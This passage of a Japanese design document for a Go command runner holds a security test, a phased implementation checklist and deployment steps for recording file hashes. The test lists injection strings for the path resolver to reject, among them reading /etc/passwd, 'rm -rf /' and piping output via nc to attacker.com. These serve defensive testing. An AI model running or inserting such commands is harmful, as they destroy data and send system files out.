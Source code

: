 ```go
    // 不安全な/tmpディレクトリは権限チェックで排除される
    _, err := pathResolver.ResolvePath("malicious")
    assert.Error(t, err, "Should reject commands from insecure directories")

    // 攻撃シナリオ2: コマンドインジェクション試行
    attackCommands := []string{
        "ls; cat /etc/passwd",
        "ls && rm -rf /",
        "ls | nc attacker.com 1337",
        "$(cat /etc/passwd)",
        "`cat /etc/passwd`",
    }

    for _, cmd := range attackCommands {
        _, err := pathResolver.ResolvePath(cmd)
        assert.Error(t, err, "Should reject command injection attempt: %s", cmd)
    }
}
```

## 7. 実装フェーズ

### Phase 1: 基盤機能
- [ ] 設定ファイル拡張（global/groups の hash_files セクション）
- [ ] runnertypes.Config 構造体拡張（SkipStandardPaths フィールド追加）
- [ ] verification.Manager の VerifyGlobalFiles/VerifyGroupFiles メソッド

### Phase 2: 検証機能
- [ ] main.go への global 検証統合
- [ ] runner.executeGroup への groups 検証統合
- [ ] エラーハンドリング（global失敗→終了、groups失敗→スキップ）

### Phase 3: 統合・テスト
- [ ] PathResolver 実装（スキップ機能付き）
- [ ] コマンド個別検証機能（標準パススキップ対応）
- [ ] 設定ファイル・コマンドライン引数でのスキップ機能制御
- [ ] 包括的テストスイート
- [ ] パフォーマンステスト

## 8. 運用考慮事項

### 8.1 デプロイメント手順

```bash
# 1. ハッシュ記録（global ファイル）
sudo ./build/record -file /usr/bin/systemctl -hash-dir /usr/local/etc/go-safe-cmd-runner/hashes
sudo ./build/record -file /usr/bin/ls -hash-dir /usr/local/etc/go-safe-cmd-runner/hashes

# 2. ハッシュ記録（groups ファイル）
sudo ./build/record -file /usr/sbin/logrotate -hash-dir /usr/local/etc/go-safe-cmd-runner/hashes
sudo ./build/record -file /etc/logrotate.conf -hash-dir /usr/local/etc/go-safe-cmd-runner/hashes

# 3. 設定ファイル更新
vi /etc/go-safe-cmd-runner/config.toml  # hash_files セクション追加

# 4. 動作確認
./runner --config /etc/go-safe-cmd-runner/config.toml
```
